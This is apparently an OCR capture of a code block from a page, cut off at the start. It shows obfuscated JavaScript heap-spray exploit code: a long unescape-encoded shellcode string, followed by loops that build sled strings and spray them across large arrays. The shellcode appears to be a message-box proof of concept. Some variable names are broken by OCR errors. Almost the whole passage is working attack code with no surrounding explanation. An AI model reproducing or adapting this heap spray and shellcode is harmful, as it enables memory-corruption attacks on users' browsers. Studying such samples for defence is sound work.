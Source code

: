 7%ue186%u2a05%u66d6%ua8b9%u1535%u4296%u3498%ub199%ub4ba%ub52c%uf812%u4f93%u7b76%
u3079%ubefd%u3f71%u4e40%u7cb3%u2775%ue209%u4324%u0c70%u182d%u02e3%u4af9%ubb47%u4
1b6%u729f%u9748%ud480%ud528%u749b%u1c3c%ufc84%u497d%u7eb8%ud26b%u1de0%u0d76%u317
4%u14eb%u3770%u71a9%u723d%ub246%u2f78%u047f%ub6a9%u1c7b%u3a73%u3ce1%u19be%u34f9%
ud500%u037a%ue2f8%ub024%ufd4e%u3d79%u7596%u9b15%u7c49%ub42f%u9f4f%u4799%uc13b%ue
3d0%u4014%u903f%u41bf%u4397%ub88d%ub548%u0d77%u4ab2%u2d93%u9267%ub198%ufc1a%ud4b
9%ub32c%ubaf5%u690c%u91d6%u04a8%u1dbb%u4666%u2505%u35b7%u3742%u4b27%ufc90%ud233%
u30b2%uff64%u5a32%u528b%u8b0c%u1452%u728b%u3328%ub1c9%u3318%u33ff%uacc0%u613c%u0
27c%u202c%ucfc1%u030d%ue2f8%u81f0%u5bff%u4abc%u8b6a%u105a%u128b%uda75%u538b%u033
c%uffd3%u3472%u528b%u0378%u8bd3%u2072%uf303%uc933%uad41%uc303%u3881%u6547%u5074%
uf475%u7881%u7204%u636f%u7541%u81eb%u0878%u6464%u6572%ue275%u8b49%u2472%uf303%u8
b66%u4e0c%u728b%u031c%u8bf3%u8e14%ud303%u3352%u57ff%u6168%u7972%u6841%u694c%u726
2%u4c68%u616f%u5464%uff53%u68d2%u3233%u0101%u8966%u247c%u6802%u7375%u7265%uff54%
u68d0%u786f%u0141%udf8b%u5c88%u0324%u6168%u6567%u6842%u654d%u7373%u5054%u54ff%u2
c24%u6857%u2144%u2121%u4f68%u4e57%u8b45%ue8dc%u0000%u0000%u148b%u8124%u0b72%ua31
6%u32fb%u7968%ubece%u8132%u1772%u45ae%u48cf%uc168%ue12b%u812b%u2372%u3610%ud29f%
u7168%ufa44%u81ff%u2f72%ua9f7%u0ca9%u8468%ucfe9%u8160%u3b72%u93be%u43a9%ud268%u9
8a3%u8137%u4772%u8a82%u3b62%uef68%u11a4%u814b%u5372%u47d6%uccc0%ube68%ua469%u81f
f%u5f72%ucaa3%u3154%ud468%u65ab%u8b52%u57cc%u5153%u8b57%u89f1%u83f7%u1ec7%ufe39%
u0b7d%u3681%u4542%u4645%uc683%ueb04%ufff1%u68d0%u7365%u0173%udf8b%u5c88%u0324%u5
068%u6f72%u6863%u7845%u7469%uff54%u2474%uff40%u2454%u5740%ud0ff");

    // not important
    var MPBPtdcBjTlpvyTYkSwgkrWhXL = "";
    for (EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA=128;EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA>=0;--EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA) MPBPtdcBjTlpvyTYkSwgkrWhXL+= unescape("%ub32f%u3791");
    ETXTtdYdVfCzWGSukgeMeucEqeXxPvOfTRBiv = MPBPtdcBjTlpvyTYkSwgkrWhXL + IxTUQnOvHg;
    OqUWUVrfmYPMBTgnzLKaVHqyDzLRLWulhYMclwxdHrPlyslHTY = unescape("%ub32f%u3791");
    fJWhwERSDZtaZXlhcREfhZjCCVqFAPS = 20;
    fyVSaXfMFSHNnkWOnWtUtAgDLISbrBOKEdKhLhAvwtdijnaHA = fJWhwERSDZtaZXlhcREfhZjCCVqFAPS+ETXTtdYdVfCzWGSukgeMeucEqeXxPvOfTRBiv.length
    while (OqUWUVrfmYPMBTgnzLKaVHqyDzLRLWulhYMclwxdHrPlyslHTY.length<fyVSaXfMFSHNnkWOnWtUtAgDLISbrBOKEdKhLhAvwtdijnaHA) OqUWUVrfmYPMBTgnzLKaVHqyDzLRLWulhYMclwxdHrPlyslHT+=OqUWUVrfmYPMBTgnzLKaVHqyDzLRLWulhYMclwxdHrPlyslHTY;
    UohsTktonqUXUXspNrfyqyqDQlcDfbmbywFjyLJiesb = OqUWUVrfmYPMBTgnzLKaVHqyDzLRLWulhYMclwxdHrPlyslHTY.substring(0, fyVSaXfMFSHNnkWOnWtUtAgDLISbrBOKEdKhLhAvwtdijnaHA);
    MOysyGgYplwyZzNdETHwkru = OqUWUVrfmYPMBTgnzLKaVHqyDzLRLWulhYMclwxdHrPlyslHTY.substring(0, OqUWUVrfmYPMBTgnzLKaVHqyDzLRLWulhYMclwxdHrPlyslHTY.length-fyVSaXfMFSHNnkWOnWtUtAgDLISbrBOKEdKhLhAvwtdijnaHA);
    while(MOysyGgYplwyZzNdETHwkru.length+fyVSaXfMFSHNnkWOnWtUtAgDLISbrBOKEdKhLhAvwtdijnaHA < 0x40000) MOysyGgYplwyZzNdETHwkru = MOysyGgYplwyZzNdETHwkru+MOysyGgYplwyZzNdETHwkr+UohsTktonqUXUXspNrfyqyqDQlcDfbmbywFjyLJiesb;
    DPwxazRhwbQGu = new Array();
    for (EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA=0;EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA<100;EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA++) DPwxazRhwbQGu[EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA] = MOysyGgYplwyZzNdETHwkru + ETXTtdYdVfCzWGSukgeMeucEqeXxPvOfTRBiv;

    for (EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA=142;EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA>=0;--EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA) zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf += unescape("%ub550%u0166");
    bGtvKT = zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf.length + 20;
        while (zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf.length < bGtvKT) zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf += zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf;
    Juphd = zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf.substring(0, bGtvKT);
    QCZabMzxQiD = zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf.substring(0, zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf.length-bGtvKT);
    while(QCZabMzxQiD.length+bGtvKT < 0x40000) QCZabMzxQiD = QCZabMzxQiD+QCZabMzxQiD+Juphd;
    FovEDIUWBLVcXkOWFAFtYRnPySjMblpAiQIpweE = new Array();
    for (EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA=0;EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA<125;EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA++) FovEDIUWBLVcXkOWFAFtYRnPySjMblpAiQIpweE[EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA]= QCZabMzxQiD + zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf;
{{< /codecaption >}}
